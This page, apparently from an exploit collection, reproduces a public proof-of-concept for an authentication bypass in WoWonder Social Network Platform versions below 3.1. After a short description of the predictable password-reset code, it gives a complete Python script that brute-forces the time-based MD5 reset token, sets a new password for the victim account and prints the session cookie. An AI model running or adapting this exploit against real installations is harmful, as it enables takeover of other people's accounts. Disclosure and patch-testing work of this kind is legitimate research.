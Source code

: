 <languages />

影响版本
--------

Version: \< 3.1

EXP
---

    # Exploit Title: WoWonder Social Network Platform 3.1 - Authentication Bypass
    # Date: 11.06.2021
    # Exploit Author: securityforeveryone.com
    # Researchers : Security For Everyone Team - https://securityforeveryone.com
    # Vendor Homepage: https://www.wowonder.com/
    # Software Link: https://codecanyon.net/item/wowonder-the-ultimate-php-social-network-platform/13785302
    # Version: < 3.1
    # Tested on: Linux/Windows

    '''
    DESCRIPTION

    In WoWonder < 3.1, remote attackers can take over any account due to the weak cryptographic algorithm in recover.php. The code parameter is easily predicted from the time of day.
    The vulnerability is found the "code" parameter in password reset link. The password reset code can be estimated by combining the password reset link time and the random value generated between 111 and 999.
    if an attacker exploits this vulnerability, attacker may access all accounts in WoWonder application.

    ABOUT SECURITY FOR EVERYONE TEAM

    We are a team that has been working on cyber security in the industry for a long time.
    In 2020, we created securityforeveyone.com where everyone can test their website security and get help to fix their vulnerabilities.
    We have many free tools that you can use here: https://securityforeveryone.com/tools/free-security-tools
    '''

    import requests
    import email.utils as eut
    import calendar, time;
    import hashlib, re;

    url = "http://wowonderlab:80/wowonder/" #change this with your target
    myheaders = {"X-Requested-With": "XMLHttpRequest", "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "Connection": "close"}
    recoverdata = {"recoveremail": "wowondertest@securityforeveryone.com"}  #change this email with your registered wowonder email address
    req = requests.post(url+"requests.php?f=recover", headers=myheaders, data=recoverdata)
    b = eut.parsedate(req.headers["Date"])
    respepoch = calendar.timegm(time.strptime("{0}-{1}-{2} {3}:{4}:{5}".format(b[0],b[1],b[2],b[3],b[4],b[5]), '%Y-%m-%d %H:%M:%S'))

    for token in range(111,1000):
        str2hash = "{0}{1}".format(token,respepoch)
        email_code = hashlib.md5(str2hash.encode()).hexdigest()

        req_reset = requests.get(url+"index.php?link1=reset-password&code=1_{0}".format(email_code))
        if len(re.findall("New password",req_reset.text)) == 1:
            print(email_code)
            resetdata = {"password": "10711071", "id": "1_"+email_code}
            reqtoken = requests.post(url+"requests.php?f=reset_password", headers=myheaders, data=resetdata)
            print(reqtoken.headers['Set-Cookie'])
            break